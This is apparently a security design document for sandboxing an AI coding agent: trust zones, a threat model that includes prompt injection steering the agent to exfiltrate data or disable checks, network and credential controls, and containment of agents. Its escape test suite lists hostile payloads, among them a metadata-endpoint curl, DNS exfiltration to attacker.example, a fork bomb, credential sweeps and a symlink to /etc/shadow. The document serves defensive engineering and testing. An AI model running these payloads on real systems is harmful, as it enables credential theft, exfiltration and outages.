

# 02 — Secure Execution (SecOps)

Working assumption: **every byte produced inside a sandbox is attacker-controlled.** Not "probably
fine because the model is aligned" — attacker-controlled. The model can be steered by a malicious
issue description, a poisoned dependency, a crafted README in the target repo, or a customer who is
themselves the attacker. The design must hold when the agent is actively hostile.

Corollary that shapes the whole layout: **the sandbox is not a trusted component of your system.** It
is a hostile territory you rent, drive by remote control, and burn down.

---

## 1. Trust zones

| Zone | Contents | Holds secrets? | Can reach LLM API? | Can reach internet? |
| --- | --- | --- | --- | --- |
| **Z0 Control plane** | API, run workers, FSM driver, Postgres, git mirrors | Yes (KMS-backed) | Yes | Yes |
| **Z1 Egress control** | Forward proxy, DNS resolver, git credential broker, caching package registry | Broker holds short-lived tokens only | No | Allowlisted only |
| **Z2 Sandbox fleet host** | Bare-metal/`.metal` node, KVM, `jailer`, guest supervisor | **No** | No | No (only proxy route) |
| **Z3 Guest microVM** | Agent-generated code, dependencies, test runners, `madeagent` binary | **Never** | **No** | Only via Z1 proxy, default-deny |

Rules that follow, and must be enforced in code and in CI, not in a runbook:

- Nothing in Z3 receives a long-lived credential of any kind.
- Nothing in Z3 initiates a connection into Z0. RPC is Z0 → Z3 only.
- Z2 nodes are single-purpose. No control-plane secret, no shared cache directory, no cloud IAM role
  beyond "pull my own base image".
- A given microVM serves exactly one run and is destroyed afterwards. Never reused, never shared
  across tenants, never snapshotted-and-resumed into a different tenant's run.

---

## 2. Threat model

Ordered by realistic expected loss, not by how exciting the attack is.

| # | Threat | Realistic vector | Mitigation |
| --- | --- | --- | --- |
| T1 | **Credential theft** | Agent or dependency reads env vars, `~/.netrc`, `~/.aws`, instance metadata, and exfiltrates | No credentials in Z3 at all; git writes via broker (§4); metadata endpoints blackholed; egress allowlist means even a stolen value has nowhere to go |
| T2 | **Supply-chain execution** | `pip install`/`npm i` runs arbitrary install-time code from a typosquat or compromised package | Installation is inside the VM boundary; registry allowlist through a caching proxy; SBOM + lockfile diff recorded per run and surfaced for human review; no post-install network beyond allowlist |
| T3 | **Prompt injection → privileged action** | Malicious text in repo/issue/test output instructs the agent to exfiltrate or to disable checks | All tool output is treated as **data, never instructions**; tool authority is fixed per FSM state and cannot be escalated by content; verification commands come from the task spec, not from the model; guest cannot reach a model at all |
| T4 | **Guest → host escape** | Kernel or hypervisor vulnerability | KVM/Firecracker boundary, minimal device model, `jailer` (chroot + non-root + namespaces) + seccomp, host kernel patch SLO, escape test suite in CI (§7) |
| T5 | **Resource exhaustion / cost DoS** | Fork bomb, disk filling, crypto mining, an agent loop burning tokens | cgroup CPU/memory/pids/disk/IOPS caps, wall-clock TTL, idle TTL, per-tenant concurrency cap, and the run-level USD budget from [03](03-state-and-dataflow.md) |
| T6 | **Lateral movement** | Sandbox scans internal network or another tenant's VM | Per-run network namespace, no VM-to-VM routing, RFC1918/ULA/link-local denied at the host, egress only via authenticated proxy |
| T7 | **Malicious push to customer repo** | Agent writes a backdoor into an approved-looking patch | Broker tokens scoped to a single branch ref, never to `main`; force-push denied; human approval gate before PR; patch diff is the reviewable artifact |
| T8 | **Data leakage across tenants** | Cache/image/artifact reuse | Content-addressed artifacts keyed under a tenant prefix; no cross-tenant cache; VM lifecycle is per-run; snapshots derive only from clean base images |
| T9 | **Side channels** | Co-tenanted VMs, SMT-based leakage | MVP: accept with per-tenant node affinity for enterprise tier; document it. Revisit with SMT disabled or dedicated nodes when a customer requires it. Do not claim protection you have not implemented. |
| T10 | **Audit gap** | Cannot answer "what did the agent do at 14:32?" | Every process exec, file write, network decision and tool call is an event in the append-only log with the run/task/state that authorised it |

---

## 3. Layered controls

### L1 — Virtualisation boundary
Firecracker microVM per run. Minimal device model (`virtio-blk`, `virtio-net`, serial), no GPU
passthrough, no 9p/virtiofs host mount, nested virtualisation disabled in guest. Launched under
`jailer`: dedicated non-root uid/gid, chroot, PID/mount/network namespaces, seccomp filter on the VMM
process itself. This means an in-guest kernel exploit lands the attacker in a jailed, unprivileged,
namespaced VMM process — not on the host.

### L2 — Filesystem
Read-only base rootfs image plus a per-run writable overlay on an ephemeral block device. Workspace
mounted `nosuid,nodev,noexec` where the toolchain allows. Overlay is discarded and the block device
is trimmed on destroy. **No host directory is ever mounted into a guest.**

### L3 — Resources (cgroup v2 per VM)
Concrete MVP defaults, enforced by the provider config, not by convention:

| Limit | Default | Reason |
| --- | --- | --- |
| vCPU | 2 | Enough for a test suite, cheap to schedule |
| Memory | 4 GiB, OOM-kill on breach | Node-level dependency graphs are memory-hungry |
| PIDs | 512 | Fork-bomb ceiling |
| Disk | 8 GiB overlay quota | Fills on `node_modules`, not on an attack |
| Egress bytes | 2 GiB per run | Exfiltration and mining ceiling |
| Wall-clock TTL | 15 min hard kill | Non-negotiable upper bound on any run's compute |
| Idle TTL | 90 s with no RPC | Reclaims leaked VMs from crashed workers |

### L4 — Network: default deny
- Guest has one `tap` device in its own netns, no route to the host, no route to other guests, no
  route to RFC1918/RFC4193/link-local. `169.254.169.254` and equivalents are blackholed at the host,
  not merely at the guest.
- All egress traverses an **authenticated forward proxy** in Z1. Credentials for the proxy are
  per-run, single-use, and injected as proxy env vars — they authorise *proxying*, nothing else, and
  are worthless outside the run's lifetime.
- Proxy policy is an **allowlist of hostnames** derived from the run's declared ecosystem
  (`pypi.org`, `files.pythonhosted.org`, `registry.npmjs.org`, …), preferably fronted by a caching
  registry (devpi/Verdaccio) so the common path never leaves your network.
- DNS is pinned to a resolver in Z1 that answers only for allowlisted names. This kills DNS
  exfiltration, which is otherwise the easy bypass of an HTTP allowlist.
- Every allow/deny decision is logged with the run id. Denials are a product signal (a real
  dependency you forgot to allowlist) and a security signal (something is probing).

### L5 — Narrow guest interface
The guest exposes exactly the six `SandboxProvider` operations. No interactive shell streaming, no
port forwarding, no arbitrary file upload path outside the workspace root. All paths are resolved and
validated host-side against the workspace root **after** symlink resolution — path traversal via a
symlink planted by the agent is a real, expected attempt.

### L6 — Host posture
Dedicated sandbox nodes, minimal base OS, unattended security upgrades, patched kernel with a stated
patch SLO for KVM/Firecracker advisories, AppArmor/SELinux profile on the VMM, no SSH from the
internet, no control-plane credentials present. Nodes are cattle: rebuilt from image, never patched
by hand.

### L7 — Detection
Alert on: proxy denials above a threshold, egress volume outliers, TTL kills, `pids`/OOM ceilings hit,
any guest attempt to reach a control-plane address, and any unexpected outbound protocol. These are
cheap signals and they are how you find out you have a problem before a customer does.

---

## 4. Credential brokering (why the guest can push without holding a token)

The agent needs commits to land, but must never hold a token. Invert it: the guest asks, the control
plane acts.

Consequences worth stating explicitly:

- The guest cannot push. It can only produce a patch that the control plane chooses to apply.
- The control plane can **refuse** a patch: writes to `.github/workflows/`, `.git/hooks/`,
  submodule pointers, or CI configuration are rejected by policy in the MVP. That single rule kills
  the most direct "agent escalates its own privileges via your CI" path.
- Tokens are scoped to one ref and expire in a minute, so a leaked token is close to worthless.

---

## 5. Prompt injection is an authorisation problem, not a prompt problem

Do not attempt to solve injection with instructions like "ignore malicious content". Architect it away:

1. **The guest has no LLM API key and no model access.** Injected text cannot spend credits or start
   a nested agent.
2. **Tool authority is a property of the FSM state, not of the conversation.** A `VERIFY`-state agent
   can run the task's declared verification command and read files. It cannot write files, cannot
   change the verification command, and cannot request new tools. Content cannot widen this.
3. **Verification commands come from the task spec** produced under human-visible planning, never
   from repository content or model output at verification time.
4. **Tool results are wrapped as untrusted data** in the prompt (delimited, labelled with provenance),
   and the system prompt states that tool output is observations only.
5. **Every state-changing effect is an orchestrator-mediated, logged, idempotent operation** — so the
   worst case of a successful injection is a bad patch that a human declines, not an unbounded action.

Injection will still succeed sometimes at the *content* level (a subtly wrong patch). The design goal
is that its blast radius is bounded by the FSM's authority grants and the approval gate.

---

## 6. Secrets the agent legitimately needs

Some tasks need a real credential (a test database, a staging API key). Do not solve this by putting
secrets in the guest.

- **MVP:** disallow it. Tasks requiring live external credentials are out of scope; use fixtures,
  fakes, and ephemeral services started *inside* the VM.
- **Next:** per-run injected secrets from KMS, with (a) explicit tenant declaration per task,
  (b) values fetched only for the states that need them, (c) redaction of the values from all logs,
  events and prompts by exact-match and entropy scan, (d) mandatory rotation-on-run-completion for
  anything that touched a guest. Assume any secret that enters a guest is burned.

---

## 7. The escape test suite (required CI check)

Isolation is a claim; this suite is the evidence. It runs the *real* sandbox provider and asserts
that hostile payloads fail. It must gate every deploy and every provider change, and each incident
adds a case permanently.

| Case | Payload | Expected |
| --- | --- | --- |
| Metadata access | `curl -m5 http://169.254.169.254/latest/meta-data/` | Connection fails; proxy denial logged |
| Cloud metadata via DNS | Resolve and connect to a non-allowlisted host | NXDOMAIN from pinned resolver; denial logged |
| DNS exfiltration | `dig $(base64 /etc/hostname).attacker.example` | Blocked by resolver allowlist |
| Control-plane reach | Connect to control-plane host/port and to Postgres port | No route; denial logged |
| Lateral scan | Sweep RFC1918 ranges and sibling guest IPs | No route; alert fires |
| Host filesystem | Enumerate `/proc/1/root`, `/dev/kvm`, look for virtiofs/9p mounts | Absent or inaccessible |
| Privilege escalation | SUID hunt, `unshare`/`mount`, load kernel module | Denied |
| Fork bomb | `:(){ :|:& };:` | `pids` cap; VM survives or is killed; host unaffected |
| Memory bomb | Allocate beyond cap | Guest OOM-kill only |
| Disk fill | `dd` until quota | Quota error; host disk unaffected |
| Crypto miner | Long-running CPU spin | Wall-clock TTL kill; CPU cap respected; alert fires |
| Path traversal | Symlink workspace path to `/etc/shadow`, then `read_file` | Host-side symlink-resolved path validation rejects |
| Credential sweep | `env`, `~/.aws`, `~/.netrc`, `~/.git-credentials`, `git remote -v` | No secrets present; remote has no embedded token |
| Token exfil after push | Search guest FS for a git token after a broker push | Not present |
| CI config write | Patch modifies `.github/workflows/ci.yml` | Patch validator rejects; run halts for human review |
| Post-install hook | Dependency with a malicious `setup.py`/`postinstall` calling out to a denied host | Executes but is contained; egress denied and logged |
| Persistence | Write cron/systemd unit, then re-create sandbox | Fresh VM has no trace |
| VM reuse leak | Run tenant A, destroy, run tenant B, search for A's data | Nothing found |

Run the fast subset on every PR and the full suite nightly plus before any provider or image change.
**A failure here is a release blocker, not a ticket.**

---

## 8. Compliance mapping (cheap now, expensive later)

Enterprise B2B buyers will ask. These fall out of the design for free if you build them at P0 rather
than retrofit:

- **Audit trail:** the append-only event log already records every exec, file write, network decision
  and model call with the authorising run/task/state.
- **Data residency:** sandbox node region is a per-tenant setting from day one; a region column added
  later means a migration under time pressure.
- **Data retention:** artifacts are content-addressed with a tenant prefix and a TTL, so deletion is
  a prefix sweep rather than an archaeology project.
- **Least privilege:** git tokens are ref-scoped and minute-lived; document the scopes you request
  and be able to show that you request nothing more.
- **Incident response:** because every run is replayable from its event log, the blast-radius question
  ("which runs touched this repo with which tool calls?") is a SQL query.
